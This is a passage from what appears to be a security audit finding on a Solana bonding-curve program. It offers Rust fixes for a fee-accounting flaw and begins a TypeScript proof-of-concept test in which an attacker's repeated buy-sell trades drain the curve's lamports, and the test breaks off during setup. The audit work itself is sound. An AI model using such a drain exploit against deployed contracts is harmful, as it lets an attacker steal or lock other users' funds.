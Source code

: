 ### Recommendations

1. **Subtract Fees Before Payout**  
   Instead of sending the entire `sol_amount`, send only `sol_amount - fee` to the user. For example:
   ```rust
   let sell_amount_minus_fee = sell_result.sol_amount - fee;
   transfer_lamports(from_account, user, sell_amount_minus_fee)?;
   transfer_lamports(from_account, fee_recipient, fee)?;
   ```
   This ensures the total SOL leaving the account is never more than `sell_result.sol_amount`.

2. **Add an Invariant Check**  
   After each trade, verify that the PDA’s actual lamport balance is at least equal to the recorded `real_sol_reserves`. For instance:
   ```rust
   require!(
       pda_lamports >= bonding_curve.real_sol_reserves,
       CustomError::PDAUnderflow
   );
   ```
   This helps detect or prevent reserves from going negative.


### Proof of Concept (TypeScript Test)

In the following scenario, two regular users purchase tokens from the Bonding Curve (thus funding the curve’s PDA), and an attacker then performs repeated buy-sell transactions to drain all of these lamports. Eventually, legitimate users can no longer sell.

```ts
it("drain bonding curve lamports and thus locking any user investment in a token", async () => {
    const attacker = anchor.web3.Keypair.generate();
    await fundAccountSOL(connection, attacker.publicKey, 420 * LAMPORTS_PER_SOL);

    const randomUser = anchor.web3.Keypair.generate();
    await fundAccountSOL(connection, randomUser.publicKey, 69 * LAMPORTS_PER_SOL);

    const randomUser2 = anchor.web3.Keypair.generate();
    await fundAccountSOL(connection, randomUser2.publicKey, 69 * LAMPORTS_PER_SOL);

    let attackerSolBalance = await connection.getBalance(attacker.publicKey);
    let randomUserSolBalance = await connection.getBalance(randomUser.publicKey);

    console.log("Start attacker SOL balance:", attackerSolBalance);
    console.log("Start randomUser SOL balance:", randomUserSolBalance);

    const newBondingCurve = await createBondingCurve(attacker);
    let bondingCurveSolBalance = await connection.getBalance(newBondingCurve.bondingCurvePDA);

    // Fetch the latest bonding curve state to see how many tokens remain
    let currentAMM = await getAmmFromBondingCurveCustom(newBondingCurve.bondingCurvePDA);
    console.log("Bonding initial balance: ", bondingCurveSolBalance);

    const tokensToBuy = 300_000_000_000n; // ~ 8580134 lamports with the Default Initial Parameters?

    // Calculate how much SOL we need (including fee)
    let buyPrice = currentAMM.getBuyPrice(tokensToBuy);
    if (!buyPrice) {
        throw new Error(`No buy price returned for ${tokensToBuy} tokens. AMM state: ${JSON.stringify(currentAMM)}`);
    }
    const fee = calculateFee(buyPrice, Number(DEFAULT_FEE_BASIS_POINTS));
    const maxSolAmount = buyPrice + fee;

    // Buy the tokens from randomUser
```